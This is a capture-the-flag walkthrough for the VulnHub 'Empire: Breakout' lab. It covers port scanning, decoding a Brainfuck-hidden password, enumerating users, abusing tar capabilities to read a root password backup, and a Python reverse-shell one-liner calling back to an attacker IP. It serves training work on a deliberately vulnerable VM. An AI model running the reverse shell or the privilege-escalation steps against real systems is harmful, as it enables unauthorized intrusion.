# EMPIRE: BREAKOUT 

## Description

This walkthrough guides you through the EMPIRE: BREAKOUT CTF machine, an easy-level challenge where you need to obtain the user.txt and root.txt flags.

### Name: EMPIRE: BREAKOUT

### Author: icex64 & Empire Cybersecurity

### Link: [EMPIRE: BREAKOUT](https://www.vulnhub.com/entry/empire-breakout,751/)

### Tools Used: 
- netdiscover
- enum4linux
- netcat

### Prerequisites: 
Basic knowledge of Linux commands, tar, and Python3

## Walkthrough

### Step 1: Identifying the IP

Use `netdiscover` to identify the IP of the machine: 
```bash
netdiscover -r 192.168.0.0/16
``` 
In my case it is `192.168.141.139` but in your case, the IP is likely different.



### Step 2: Scanning the Ports

Run an nmap scan to discover open ports and services: 
```bash
nmap -A -v -O -T4 192.168.141.139
``` 

Result of Nmap command is :
```bash
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.51 (Debian)
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: CE3F4BC6DC90E29810C4B9B3973A561D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: FF62B94E9B0E30DF8F1319D19AE55844
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 00:0C:29:86:DA:D5 (VMware)
```

The result shows that ports 80, 139, 445, 10000, and 20000 are open.

### Step 3: Exploring Port 80

Visit the IP in your browser to access the webpage, And it shows default page of apache. But by visiting source code of page i found a text.



### Step 4: Decrypting the Hash

To decrypt this encrypted hash first we have to identify the hash type. use this website to identify the hash: [`Cipher Identifier`](https://www.dcode.fr/cipher-identifier).



We see that the hash are in Brainfuck language. To decrypt this hash use this website: [`Decrypt Hash`](https://www.dcode.fr/brainfuck-language).



### Step 5: Accessing Webmin

Here you see we have text `.2uqPEfj3D<P'a-3`, it might be a password.

Now we have other ports open so i just tried to visit port `10000` by visiting: 
```
https://192.168.141.139:10000
``` 
I see a login page of `webmin`.



Webmin is a popular hosting platform to host website, but user can login with `usermin` and this is on port `20000`. Try `usermin` on `https://192.168.141.139:20000` for User access.

Possibly we have password, so we have to find username and it might possible that user of machine is username.


### Step 6: Finding User

Use `enum4linux` to find the user of the machine: 
```bash
enum4linux -a 192.168.141.139
``` 


Here you see we discover the user `cyber`.


### Step 7: Accessing Usermin

Use the discovered credentials `cyber : .2uqPEfj3D<P'a-3` to login to `usermin` on: 
```
https://192.168.141.139:20000
```



### Step 8: Obtaining User Flag

Explore the user dashboard and click the shell icon to access a shell.



In the shell i founded our first flag in `user.txt` and it also have tar file which is used to make archives or extract it.


### Step 9: Obtaining Root Password

After some findings i found `.old_pass.bak` in `/var/backups/` directory, this file have a password of a root.


We don't have access to that file so we can archive that file and extract it on our users directory.

Now go back to the home directory of `cyber` user, we have to know about tar file what permissions it has. Use 
```bash
getcap tar
```
to identify that tar has all permissions or not.



We have full permission for tar file.

Now use this commands to Archive that file into current directory and extract it.
```bash
./tar -czf pass.tar.gz /var/backups/.old_pass.bak
./tar -xzf pass.tar.gz
```


Go to the `/var/backups` directory and just cat the file `.old_pass.bak`. We have the password of root: `Ts&4&YurgtRX(=~h`.

### Step 10: Getting Reverse Shell

Here we can not be able to access the root account on webshell so we have to get reverse shell. To do this open listener on kali machine: 
```bash
nc -lvp 1234
```

Use this python command on web-shell:
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR_IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Don't forgot to replace `<YOUR_IP>` with you machine's ip.



We have reverse shell.


### Step 11: Obtaining Root Flag

Use this command to get `root` access: 
```bash
su root
```
Use the obtained password to log in as root.
`root : Ts&4&YurgtRX(=~h`




Access the root directory using `cd ../../root/` and obtain the root flag: 
```bash
cat rOOt.txt
```


